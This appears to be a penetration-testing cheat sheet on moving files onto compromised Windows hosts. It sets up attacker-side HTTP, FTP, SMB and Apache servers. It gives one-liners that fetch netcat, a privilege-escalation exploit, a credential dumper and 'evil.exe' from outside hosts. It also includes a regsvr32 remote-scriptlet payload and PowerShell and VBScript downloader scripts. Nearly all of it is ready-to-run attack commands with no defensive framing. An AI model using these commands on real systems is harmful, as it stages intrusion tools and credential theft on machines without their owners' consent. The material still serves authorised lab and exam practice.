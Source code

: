 # File Transfers

### Python webserver host

`python -m SimpleHTTPServer 80`

### Python ftp host

`python -m pyftpdlib -p 21`

### FTP non-interactive

`echo open 10.11.14.32 21> ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET ms15051.exe>> ftp.txt echo bye>> ftp.txt ftp -v -n -s:ftp.txt`

## SMB Server \(Impacket\) 

```bash
# mount current directory `.` to smb share name `a`
smbserver.py a .

# to copy eg. in windows
copy \\192.168.1.100\a\wce32.exe .

# execute exe using smb share
\\192.168.1.100\a\whoami.exe
```

## Python file transfer

`c:\python26\python.exe -c "from urllib import urlretrieve; urlretrieve('`[`http://10.11.0.69/nc.exe`](http://10.11.0.69/nc.exe)`', 'C:\Inetpub\wwwroot\nc.exe')"`

### Windows Server 1-liner

`regsvr32 /u /n /s /i:`[`http://192.168.1.10:443/payload.sct`](http://ip:port/payload.sct) `scrobj.dll`

## Powershell wget script

```bash
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1 
echo $file = "new-exploit.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

### VB downloader script

```bash
#Windows downloader script using VB
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# To Download using script
cscript wget.vbs http://10.11.0.5/37.exe evil.exe
```

### Apache Webserver

```bash
# Edit port used 'Listen <Port>'
vim /etc/apache2/ports.conf

# Create folder to share
mkdir /var/www/html/share

#chmod
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share

#move file to webserver root
mv /root/Desktop/evil.exe /var/www/html/share

#start 
service apache2 start
```



